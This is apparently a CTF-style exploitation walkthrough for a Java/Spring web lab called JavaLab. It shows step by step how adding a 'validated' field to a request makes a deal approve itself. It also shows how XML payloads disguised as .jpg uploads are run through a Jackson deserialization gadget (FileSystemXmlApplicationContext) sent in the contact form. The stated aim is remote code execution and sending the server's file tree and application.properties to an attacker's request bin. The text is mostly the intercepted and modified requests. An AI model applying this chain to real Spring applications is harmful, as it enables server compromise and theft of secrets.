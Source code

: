 # JAVALAB EXPLOITATION

## PART 1 (AUTO VALIDATE A DEAL)

### Step 1

Post a deal and intercept the request

```HTTP
------WebKitFormBoundaryGTkAu8msA7WAW6bE
Content-Disposition: form-data; name="infos"; filename="blob"
Content-Type: application/json

{"description":"aa","link":"aa"}
------WebKitFormBoundaryGTkAu8msA7WAW6bE--
```

### Step 2

Change the JSON and add the field "validated" with the name of the file in Base64

```HTTP
------WebKitFormBoundaryGTkAu8msA7WAW6bE
Content-Disposition: form-data; name="infos"; filename="blob"
Content-Type: application/json

{"description":"aa","link":"aa","validated":"fileNameInBase64"}
------WebKitFormBoundaryGTkAu8msA7WAW6bE--
```

### Step 3

Send the request, and ...... TADAM!


## PART 2 (Get application.properties or RCE)

### SETP 0

Upload the same image **with the same name** twice to get a stack trace

```JAVA
java.nio.file.FileAlreadyExistsException: /opt/app/tmp/BD-Blagues-toto.jpg
	at java.base/sun.nio.fs.UnixException.translateToIOException(UnixException.java:94)
	at java.base/sun.nio.fs.UnixException.rethrowAsIOException(UnixException.java:111)
	at java.base/sun.nio.fs.UnixException.rethrowAsIOException(UnixException.java:116)
	at java.base/sun.nio.fs.UnixFileSystemProvider.newByteChannel(UnixFileSystemProvider.java:219)
	at java.base/java.nio.file.spi.FileSystemProvider.newOutputStream(FileSystemProvider.java:478)
	at java.base/java.nio.file.Files.newOutputStream(Files.java:219)
	at java.base/java.nio.file.Files.copy(Files.java:3066)
```

Now, we know that every images are store in **/opt/app/tmp**

### STEP 1

1. Create a new deal and upload **"collect_arbo.jpg"**. This script (file) will send the arbo in /tmp/test.txt
2. To execute this file, use the Contact form, intercept the request and change **details** content

```JSON
{"email":"a","content":"a","details":{"@class":"com.laba4s.Private","phone":"a"}}
```

to "["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/collect_arbo.jpg"]"

Final JSON:
```JSON
{"email":"a","content":"a","details":["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/collect_arbo.jpg"]}
```

### STEP 2

1. Create a new deal and upload **"send_arbo_to_request_bin.jpg"**. This script (file) will send the arbo to your $request bin
2. To execute this file, use the Contact form, intercept the request and change **details** content

```JSON
{"email":"a","content":"a","details":{"@class":"com.laba4s.Private","phone":"a"}}
```

to "["org.springframework.context.support.FileSystemXmlApplicationContext","opt/app/tmp/send_arbo_to_request_bin.jpg"]" to execute the content of send_arbo_to_request_bin.jpg

Final JSON:
```JSON
{"email":"a","content":"a","details":["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/send_arbo_to_request_bin.jpg"]}
```

### STEP 3

1. Create a new deal and upload **"send_config_file_to_request_bin.jpg"**. This file will send the application.properties to your $request bin
2. Use the Contact form, intercept the request and change **details** content

```JSON
{"email":"a","content":"a","details":{"@class":"com.laba4s.Private","phone":"a"}}
```

to "["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/send_config_file_to_request_bin.jpg"]" to execute the content of send_arbo_to_request_bin.jpg

Final JSON:
```JSON
{"email":"a","content":"a","details":["org.springframework.context.support.FileSystemXmlApplicationContext","/opt/app/tmp/send_config_file_to_request_bin.jpg"]}
```

